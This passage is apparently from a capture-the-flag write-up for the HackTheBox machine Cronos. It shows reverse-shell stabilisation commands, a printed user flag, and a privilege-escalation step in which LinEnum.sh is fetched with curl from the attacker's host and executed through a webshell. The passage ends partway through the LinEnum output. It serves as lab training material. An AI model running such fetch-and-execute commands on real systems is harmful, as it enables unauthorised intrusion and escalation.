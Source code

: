 ```bash

$ stty raw -echo; fg # Bring the reverse shell back to foreground
$ export SHELL=bash
$ export TERM=xterm-256color # Same as on my OS
$ stty rows 26 columns 104   # From stty -a output
```

This process always created an unstable shell on Cronos, so I skipped this step and soldiered on.

## User Flag

Once we have a shell, getting the user flag is easy.

```bash
$ ls /home
ls /home
noulis
$ cd /home/noulis
cd /home/noulis
$ wc user.txt
wc user.txt
 1  1 33 user.txt
$ cat user.txt
cat user.txt
51d236438b333970dbba7dc3089be33b
```

## Privilege Escalation

I run a server on my Kali box in a directory with enumeration scripts to be copied over:

```bash
$ htb_ip () {
        ifconfig tun0 | awk '/inet / {print $2}'
}
$ htb_server () {
        echo "Server IP Address copied to clipboard" && echo "$(htb_ip):8000/" | xsel -ib && python3 -m http.server
}
$ htb_server
```

On the webshell, I run `$ curl http://10.10.14.31:8000/LinEnum.sh > LinEnum.sh && chmod +x LinEnum.sh && ./LinEnum.sh` to kick off the priv esc.

```bash
$ ./LinEnum.sh
#########################################################
# Local Linux Enumeration & Privilege Escalation Script #
#########################################################
# www.rebootuser.com
# version 0.982

[-] Debug Info
[+] Thorough tests = Disabled


Scan started at:
Mon Mar 30 21:32:14 EEST 2020


### SYSTEM ##############################################
[-] Kernel information:
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

```